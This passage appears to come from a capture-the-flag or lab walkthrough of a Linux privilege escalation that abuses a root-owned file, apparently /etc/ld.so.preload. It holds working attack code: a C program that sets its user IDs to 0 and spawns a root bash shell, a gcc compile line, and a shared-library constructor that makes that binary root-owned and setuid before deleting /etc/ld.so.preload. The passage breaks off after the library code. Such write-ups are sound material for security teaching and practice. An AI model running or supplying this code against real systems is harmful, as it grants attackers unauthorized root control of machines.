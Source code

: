 ![16](images/test_1.jpg)

+ **And the file owner is root. Let's exploit this vulnerability. First, let's create a C program so we can generate a root shell and compile it. We're gonna create it in the /tmp directory**

```C
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
 // set user as root;
 setuid(0);
 setgid(0);
 seteuid(0);
 setegid(0);

 // spawn a shell;
 system("/bin/bash");
}
```

``gcc root_sh.c -o root_sh``

+ **We have to make another little thing; if we run the executable, we'll do it as our user. So we need to change the ownership and permission of the file so we can run it as root. To do this, we'll create a dynamic library file and then compile it. Create it into the /tmp directory too.**

```C
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <unistd.h>

__attribute__ ((__constructor__))

void libshell(void)
{
    chown("/tmp/root_sh", 0, 0);
    chmod("/tmp/root_sh", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] shell loaded!\n");
}
```
